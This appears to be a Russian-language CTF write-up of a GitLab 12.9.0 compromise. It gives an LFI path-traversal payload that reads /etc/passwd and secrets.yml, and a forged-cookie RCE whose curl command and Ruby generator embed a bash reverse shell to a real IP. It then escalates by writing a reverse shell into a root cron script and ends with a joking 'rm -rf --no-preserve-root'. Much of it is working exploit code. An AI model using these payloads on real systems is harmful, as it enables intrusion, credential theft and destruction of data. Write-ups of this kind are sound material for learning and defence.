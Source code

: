 # Разведка

Открываем в браузере 4f643f0a02e6.ngrok.io.

Видим страницу авторизации гитлаба. Регистрация не отключена, попробуем создать аккаунт. Успешно регистриуемся, в разделе help смотрим версию - у нас gitlab 12.9.0.

Походив немного по публичным репозиториям, находим в коммитах какой-то удаленный файл с кучей паролей пользователей. Сохраняем, пригодится.

# Ищем эксплойт

Спустя несколько минут поисков узнаем, что эта версия гитлаба уязвима к `LFI`:

Необходимо создать 2 проекта, создать в 1 из них `issue`, перенести этот `issue` в другой проект, при этом указав в описании нужный нам файл, например:

`! [mia] (/uploads/ed4aet10d9#4021350eScleaa123b6e1/../../../../../../../../../../../etc/passwd)`

При переносе в другой проект, мы получим доступ к файлу `/etc/passwd`.

# Получаем reverse shell

Вытаскиваем выше описанным способом файл с настройками gitlab.

`! [mia] (/uploads/00000000000000000000000000000000/../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)`

Там указан `secret_key_base`, он используется для подписи куки файлов. Подняв свой гитлаб и указав этот же ключ, мы можем делать валидные куки. А так как из за особенностей git lab мы можем встроить в куку любую команду, то мы получаем RCE.

`
$ curl 'http://4f643f0a02e6.ngrok.io/' -b "remember_user_token=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kibiNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1pID4mIC9kZXYvdGNwLzc5LjEzNi4xNzMuMTU5LzEzMzcgMD4mMWAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--432599b62642a46749065c3bbe688bd507e1bc5c"
`

Генерируем эксплойт:

```
$ ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
$ request = ActionDispatch::Request.new(Rails.application.env_config)
$ request.env["action_dispatch.cookies_serializer"] = :marshal
$ cookies = request.cookie_jar
$ erb = ERB.new("<%= `bash -i >& /dev/tcp/95.46.3.95/1337 0>&1` %>")
$ depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
$ cookies.signed[:cookie] = depr
$ puts cookies[:cookie]
```

Мы получили `reverse shell`. Прописав `whoami` понимаем, что мы под юзером `gitlab`. Выведем содержимое `/home`:
```
$ ls /home
nikol
```

Вспоминаем про файл с какими-то паролями, находим в нем пароль юзера `nikol` - `helloluc4`

Прописываем 

```
$ su nikol
```

и получаем ошибку:

`su must be run from terminal`

Идем гуглить, находим [решение на stackoverflow](https://stackoverflow.com/questions/36944634/su-command-in-docker-returns-must-be-run-from-terminal/41872292):

```
$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
$ python /tmp/asdf.py
```

Логинимся под юзером `nikol`:

```
$ su nikol
Enter password: helloluc4
```

# Поднимаем рута

Запустим тулзу `LinEnum` для сбора информации:

```
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

Видим, что в `cron` висит какой-то `script.sh`. Вычисляем, что он находится в директории `/home/nikol/script.sh` и выезжаем за ним:

```
$ cd /home/nikol
$ ls -la
```

Этим файлом владеет `root` и мы имеем право в него что-то писать.

Пропишем туда ~~rm -rf / --no-preserve-root~~ подключение к нашему компу, чтобы получить обратный шелл, перед этим начав слушать порт 1337:
```
$ echo "bash -i >& /dev/tcp/95.46.3.95/1337 0>&1" > script.sh

```

Получаем обратный шелл от рута. Легчайшая. Для кого? Для величайших хакеров всея руси.

# Эпилог 

Внезапно из ниоткуда пришел злой сисадмин и начал безжалостно уничтожать все обратные шеллы:

```
$ killall bash
```

Закрепиться на машине или прописать `rm -rf --no-preserve-root`, вот в чем вопрос?

```
$ rm -rf --no-preserve-root
```

![alt text](https://i.pinimg.com/originals/4f/ce/c7/4fcec737c161fed5c37cb2198b777b81.jpg)